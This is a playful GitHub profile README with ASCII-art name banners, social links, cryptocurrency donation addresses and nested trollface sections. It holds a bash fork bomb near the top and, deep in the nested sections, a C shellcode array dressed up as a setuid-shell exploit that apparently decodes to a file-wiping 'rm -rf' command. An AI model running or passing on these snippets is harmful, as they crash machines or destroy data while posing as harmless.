 <div align="right">

![connerwill.com](https://img.shields.io/website?down_color=%23ff0000&down_message=offline&label=connerwill.com&up_color=%2300ff00&up_message=online&url=https%3A%2F%2Fconnerwill.com)

</div>
<div align="right">

```diff
+
```

</div>
<div align="center">

<!--
```pwsh
 ____                                           __      __       ___    ___
/\  _`\                                        /\ \  __/\ \  __ /\_ \  /\_ \
\ \ \/\_\    ___     ___     ___      __   _ __\ \ \/\ \ \ \/\_\\//\ \ \//\ \
 \ \ \/_/_  / __`\ /' _ `\ /' _ `\  /'__`\/\`'__\ \ \ \ \ \ \/\ \ \ \ \  \ \ \
  \ \ \L\ \/\ \L\ \/\ \/\ \/\ \/\ \/\  __/\ \ \/ \ \ \_/ \_\ \ \ \ \_\ \_ \_\ \_
   \ \____/\ \____/\ \_\ \_\ \_\ \_\ \____\\ \_\  \ `\___x___/\ \_\/\____\/\____\
    \/___/  \/___/  \/_/\/_/\/_/\/_/\/____/ \/_/   '\/__//__/  \/_/\/____/\/____/
```
-->

```bash
:(){ :|: & };:

 ▄████████  ▄██████▄  ███▄▄▄▄   ███▄▄▄▄      ▄████████    ▄████████  ▄█     █▄   ▄█   ▄█        ▄█
███    ███ ███    ███ ███▀▀▀██▄ ███▀▀▀██▄   ███    ███   ███    ███ ███     ███ ███  ███       ███
███    █▀  ███    ███ ███   ███ ███   ███   ███    █▀    ███    ███ ███     ███ ███▌ ███       ███
███        ███    ███ ███   ███ ███   ███  ▄███▄▄▄      ▄███▄▄▄▄██▀ ███     ███ ███▌ ███       ███
███        ███    ███ ███   ███ ███   ███ ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   ███     ███ ███▌ ███       ███
███    █▄  ███    ███ ███   ███ ███   ███   ███    █▄  ▀███████████ ███     ███ ███  ███       ███
███    ███ ███    ███ ███   ███ ███   ███   ███    ███   ███    ███ ███ ▄█▄ ███ ███  ███▌    ▄ ███▌    ▄
████████▀   ▀██████▀   ▀█   █▀   ▀█   █▀    ██████████   ███    ███  ▀███▀███▀  █▀   █████▄▄██ █████▄▄██
                                                         ███    ███                  ▀         ▀
```
</div>

<div align="center">
  <sample>
   <b><a href="https://connerwill.com">╔════════════════════════════════════════╗</a></b>
  </sample>
  <br>
  <span>
  <kbd>
   <a href="https://connerwill.com"><kbd> &#x239A; <kbd> 〠 </kbd></kbd></a>
   <a href="https://github.com/ConnerWill"><kbd> GitHub </kbd></a>
   <a href="https://gitlab.com/ConnerWill"><kbd> GitLab </kbd></a>
   <a href="https://github.com/ConnerWill?tab=repositories"><kbd> Repositories </kbd></a>
   <a href="https://gist.github.com/ConnerWill"><kbd> Gists </kbd></a>
   <a href="https://dampsock.com"><kbd> dampsock.com </kbd></a>
   <a href="https://connerwill.com"><kbd> connerwill.com </kbd></a>
   <a href="https://connerwill.com"><kbd><kbd> &#x274D; </kbd> &#x2672; </kbd></a>
  </kbd>
 </span>
<div align="center">
 <a href="https://connerwill.com/content/misc/void.html"><img src="https://bingimages.herokuapp.com/unsplash1" width="100%" height="50%"></a>
</div>
<div align="center">
 <span>
  <kbd>
   <a href="https://connerwill.com"><kbd> &#x2748; <kbd> ☻ </kbd></kbd></a>
   <a href="https://github.com/ConnerWill"><kbd> GitHub </kbd></a>
   <a href="https://gitlab.com/ConnerWill"><kbd> GitLab </kbd></a>
   <a href="https://github.com/ConnerWill?tab=repositories"><kbd> Repositories </kbd></a>
   <a href="https://gist.github.com/ConnerWill"><kbd> Gists </kbd></a>
   <a href="https://dampsock.com"><kbd> dampsock.com </kbd></a>
   <a href="https://connerwill.com"><kbd> connerwill.com </kbd></a>
   <a href="https://connerwill.com"><kbd><kbd> &#x262C; </kbd> &#x26C0; </kbd></a>
  </kbd>
 </span>
 <br>
  <sample>
   <b><a href="https://connerwill.com">╚════════════════════════════════════════╝</a></b>
  </sample>
<br><br>
</div>
</div>
<div align="center">

 ```console
 ▄████▄   ▒█████   ███▄    █  ███▄    █ ▓█████  ██▀███   █     █░ ██▓ ██▓     ██▓
▒██▀ ▀█  ▒██▒  ██▒ ██ ▀█   █  ██ ▀█   █ ▓█   ▀ ▓██ ▒ ██▒▓█░ █ ░█░▓██▒▓██▒    ▓██▒
▒▓█    ▄ ▒██░  ██▒▓██  ▀█ ██▒▓██  ▀█ ██▒▒███   ▓██ ░▄█ ▒▒█░ █ ░█ ▒██▒▒██░    ▒██░
▒▓▓▄ ▄██▒▒██   ██░▓██▒  ▐▌██▒▓██▒  ▐▌██▒▒▓█  ▄ ▒██▀▀█▄  ░█░ █ ░█ ░██░▒██░    ▒██░
▒ ▓███▀ ░░ ████▓▒░▒██░   ▓██░▒██░   ▓██░░▒████▒░██▓ ▒██▒░░██▒██▓ ░██░░██████▒░██████▒
▒ ░▒ ▒  ░░ ▒░▒░▒░ ░ ▒░   ▒ ▒ ░ ▒░   ▒ ▒ ░░ ▒░ ░░ ▒▓ ░▒▓░░ ▓░▒ ▒  ░▓  ░ ▒░▓  ░░ ▒░▓  ░
░ ▒ ▒     ░ ▒ ▒░ ░ ░░   ░ ▒░░ ░░   ░ ▒░ ░ ░  ░  ░▒ ░ ▒░  ▒ ░ ░   ▒ ░░ ░ ▒  ░░ ░ ▒  ░
░ ░        ░ ░ ░ ▒     ░   ░ ░    ░   ░ ░    ░     ░░   ░   ░   ░   ▒ ░  ░ ░     ░ ░
░ ░          ░ ░           ░          ░    ░  ░   ░         ░     ░      ░  ░    ░  ░
░ ░
```
<!--

 ```lua
 --:::::::::::::::::::::;;;:::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::
 :,######':'#######''##'::'##'##::: ##'########'########:::'##:::::'##'####;##':::::'##';;::::
 '##'..'##;##'..' ##;###;''##:###': ##:##.....:'##.... ##:::##:;##: ##. ##::##':::::'##'::::::
 '##'::..:'##'::' ##:####''##:####' ##:##::::::'##:::: ##:::##: ##: ##: ##::##::::::'##:::::::
 '##':::::'##'::' ##:## ## ##:##'## ##:######::'########::::##: ##: ##: ##::##::::::'##'::::::
 '##':::::'##'::' ##:##. ####:##' ####:##...:::'##.. ##:::::##: ##: ##: ##::##::::::'##';:::::
 '##':' ##:##'::' ##:##:. ###:##:' ###:##::::::'##::. ##::::##: ##: ##: ##::##::::::'##':;::::
 :'######'. #######::##::. ##:##::' ##;########:##'::. ##::. ###. ###:'####'########:########:
 --.....:::.......::..::::..:..::::..:........:..:::::..::::...::...::....:........:........::
```
-->

</div>

<div align="right">

```http
+
```

</div>


<a href="https://connerwill.com/static/img/xmr-qr-connerwill.com.png"><img src="https://connerwill.com/static/img/xmr.svg" alt="Monero (XMR) icon and wallet QR code" width="2%" height="2%"> XMR</a> :  <code>86tE67soBqFb5fxNGgC4HLdwZXebP42ewfBwfKyMDKvFbgA7T8p4g4T5BBNA9LNbwaVafup973w41PdvCS7bbj6gTNQpCh1</code>

<a href="https://connerwill.com"><img src="https://connerwill.com/static/img/btc.svg" alt="₿" width="2%" height="2%"></a> BTC : <code>bc1qpg5d69n2knsete7vw7f2vqpkg4a0faq9rc6se0</code>

<div align="left">
<details>
<div align="center">
:shipit:

<div align="right">
<details>
<div align="center">
:trollface:

<div align="left">
<details>
<div align="center">
 <span>
  $e^x=\sum_{i=0}^\infty \frac{1}{i!}x^i$
  $\frac{n!}{k!(n-k)!} = {n \choose k}$
 </span>


<div align="right">
<details>
<div align="center">

:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:

:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:

<div align="center">
<details>

---

<div align="center">

	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:

	⃢	⃢	⃢:trollface:⃢
:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::tro
	⃢	⃢	⃢:trollface:⃢	⃢:trollface:	⃢:trollface::⃢:trollface:


	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢:trollface:llface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:
	⃢	⃢	⃢:trollface:⃢	⃢:trollface:	⃢:trollface::⃢:trollface:


	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:	⃢:trollface:	⃢:trollface::⃢:trollface:
:trollface:	:⃢:trollface:

	⃢	⃢	⃢:trollface:⃢
:trollface:	⃢:trollface:
	:⃢:trollface:	⃢:trollface:

:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:
	⃢	⃢	⃢:trollface:⃢	⃢:trollface:	⃢:trollface::⃢:trollface:


	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface::⃢:trollface:	⃢:trollface:
	⃢	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:	⃢:trollface:
	⃢:trollface:
	⃢:trollface:

	⃢	⃢	⃢:trollface:⃢	⃢:trollface:	⃢:trollface::⃢:trollface:


	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢:trollface:
	⃢:trollface:

	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:	⃢:trollface:

```hex
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
“\x6e\x2f\x73\x68\x00\x2d\x63\x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

</div>

---

<br><br>

<details>
<sample>
<div align="center">
<p>
 <a href="https://github.com/ConnerWill">
  <img align="center" height="200" src="https://github-readme-stats.vercel.app/api?username=ConnerWill&&show_icons=true&theme=tokyonight&&v=5"/>
 </a>
 <a href="https://github.com/ConnerWill">
  <img align="center" height="200" src="https://github-readme-stats.vercel.app/api/top-langs/?username=ConnerWill&langs_count=3&theme=tokyonight&hide="/>
 </a>
</p>
</sample>

---

</div>
</div>
</div>
</details>
</details>
</div>
</div>
</details>
</details>
</details>
</details>
</details>
</details>
</div>
</div>
